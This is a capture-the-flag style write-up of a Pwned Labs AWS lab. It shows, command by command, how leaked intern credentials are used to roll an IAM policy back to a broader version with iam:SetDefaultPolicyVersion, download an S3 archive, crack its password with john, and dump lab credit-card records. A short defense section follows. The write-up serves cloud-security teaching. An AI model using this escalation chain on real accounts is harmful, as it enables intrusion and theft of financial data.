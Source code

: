 ```yaml
---
title: Escalate Privileges by IAM Policy Rollback
description: Escalate Privileges by IAM Policy Rollback
image:
  path: aws.jpg
categories:
- Pwned Labs
- AWS
layout: post
media_subpath: /assets/posts/labs/pwnedlabs/aws/
tags:
- pwnedlabs
- aws
- cloud
---
```

# Scenario
During a routine review for Huge Logistics, your team stumbled upon a file named `passwords.xlsx`. Using the AWS credentials found in the file, can you navigate and possibly access sensitive data and resources within Huge Logistics' cloud environment? Remember, it's not just about finding vulnerabilities; it's about understanding the potential consequences and protecting the client. Time to dig deeper!

# Walkthrough
The credentials belong to `intern01` principal

```
└─$ aws sts get-caller-identity
{
    "UserId": "AIDAVVTAGAQAWWWWDWREK",
    "Account": "389970002945",
    "Arn": "arn:aws:iam::389970002945:user/intern01"
}
```
If we check attached policies, we find `intern_policy`
```
└─$ aws iam list-attached-user-policies --user-name intern01
{
    "AttachedPolicies": [
        {
            "PolicyName": "intern_policy",
            "PolicyArn": "arn:aws:iam::389970002945:policy/intern_policy"
        }
    ]
}
```

If we try to list versions of the policy, we find that there are 2 versions
```
└─$ aws iam list-policy-versions --policy-arn  arn:aws:iam::389970002945:policy/intern_policy
{
    "Versions": [
        {
            "VersionId": "v2",
            "IsDefaultVersion": true,
            "CreateDate": "2025-08-29T19:31:17Z"
        },
        {
            "VersionId": "v1",
            "IsDefaultVersion": false,
            "CreateDate": "2025-08-29T19:31:16Z"
        }
    ]
}

```

Let's retrieve the latest one
```
└─$ aws iam get-policy-version --policy-arn arn:aws:iam::389970002945:policy/intern_policy --version-id v2
{
    "PolicyVersion": {
        "Document": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Sid": "internpolicy",
                    "Effect": "Allow",
                    "Action": [
                        "iam:GetPolicyVersion",
                        "iam:GetPolicy",
                        "iam:ListPolicyVersions",
                        "iam:GetUserPolicy",
                        "iam:ListAttachedUserPolicies",
                        "iam:SetDefaultPolicyVersion"
                    ],
                    "Resource": [
                        "arn:aws:iam::*:user/intern01",
                        "arn:aws:iam::*:policy/intern_policy"
                    ]
                }
            ]
        },
        "VersionId": "v2",
        "IsDefaultVersion": true,
        "CreateDate": "2025-08-29T19:31:17Z"
    }
}

```

Seems like we can get details of any policy attached to our user and also set the default policy version. If there are other policy versions with more permissions, we can basically switch to them which would grant us more access. In this case, we have the first version, which grants us the ability to list any S3 buckets in the AWS account as well as download data from them
```
└─$ aws iam get-policy-version --policy-arn arn:aws:iam::389970002945:policy/intern_policy --version-id v1
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": [
                        "ec2:DescribeInstances",
                        "s3:ListAllMyBuckets",
                        "s3:GetObject",
                        "s3:ListBucket"
                    ],
                    "Effect": "Allow",
                    "Resource": "*"
                }
            ],
            "Version": "2012-10-17"
        },
        "VersionId": "v1",
        "IsDefaultVersion": false,
        "CreateDate": "2025-08-29T19:31:16Z"
    }
}

```

So let's set default policy version to `v1`
```
└─$ aws iam set-default-policy-version --policy-arn arn:aws:iam::389970002945:policy/intern_policy --version-id v1
```

Now if we list the buckets, we see `huge-logistics-data-751455a292f6`
```
└─$ aws s3 ls
2025-08-30 01:31:17 huge-logistics-data-751455a292f6

```

The bucket contains zip file
```
└─$ aws s3 ls huge-logistics-data-751455a292f6
2025-08-30 01:31:19       4352 amex-export.zip

```
Download it
```
└─$ aws s3 cp s3://huge-logistics-data-751455a292f6/amex-export.zip .
download: s3://huge-logistics-data-751455a292f6/amex-export.zip to ./amex-export.zip

```

Archive is password protected
```
└─$ unzip amex-export.zip     
Archive:  amex-export.zip
[amex-export.zip] amex-export.json password:
```

Let's use `zip2john` to retrieve the hash
```
└─$ zip2john amex-export.zip -o hash
Using file hash as only file to check
```

And then crack it using `john`
```
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash      
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<REDACTED>       (amex-export.zip)     
1g 0:00:00:00 DONE (2025-08-30 01:51) 1.282g/s 16678Kp/s 16678Kc/s 16678KC/s 1luvu1..1joshcam
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

Unzip the content
```
─$ unzip amex-export.zip
Archive:  amex-export.zip
[amex-export.zip] amex-export.json password: 
  inflating: amex-export.json        
 extracting: flag.txt 
```

And we got access to credit card data
```
└─$ cat amex-export.json 
[    {        "CreditCard": {            "IssuingNetwork": "American Express",            "CardNumber": "374181970164337",            "Name": "Selina Carter",            "Address": "Devon Court 13",            "Country": "Liechtenstein",            "CVV": "433",            "Exp": "10/2024"        }    },    {        "CreditCard": {            "IssuingNetwork": "American Express",            "CardNumber": "377131337333858",            "Name": "Brenton Martinez",            "Address": "Cottage Street 34",            "Country": "United States",            "CVV": "279",            "Exp": "05/2028"        }    },    {        "CreditCard": {            "IssuingNetwork": "American Express",            "CardNumber": "346240654164354",            "Name": "Donald King",            "Address": "Route 30 132",            "Country": "Pakistan",            "CVV": "647",            "Exp": "03/2025"        }    },    {        "CreditCard": {            "IssuingNetwork": "American Express",            "CardNumber": "370094236189853",            "Name": "Caden Anderson",            "Address": "Warren Avenue 33",            "Country": "Philippines",            "CVV": "594",            "Exp": "11/2023"        }    }
<SNIP>
```
# Defense
This part is from [lab's defense section](https://pwnedlabs.io/labs/escalate-privileges-by-iam-policy-rollback)

Make sure to monitor and perform audit of permissions and roles. In this case the `intern` account was assigned the potentially dangerous permission `iam:SetDefaultPolicyVersion`, which granted access to S3 bucket. 

Also, do not store sensitive data in S3 buckets (despite it being zipped with password, it still got cracked due to weak password). 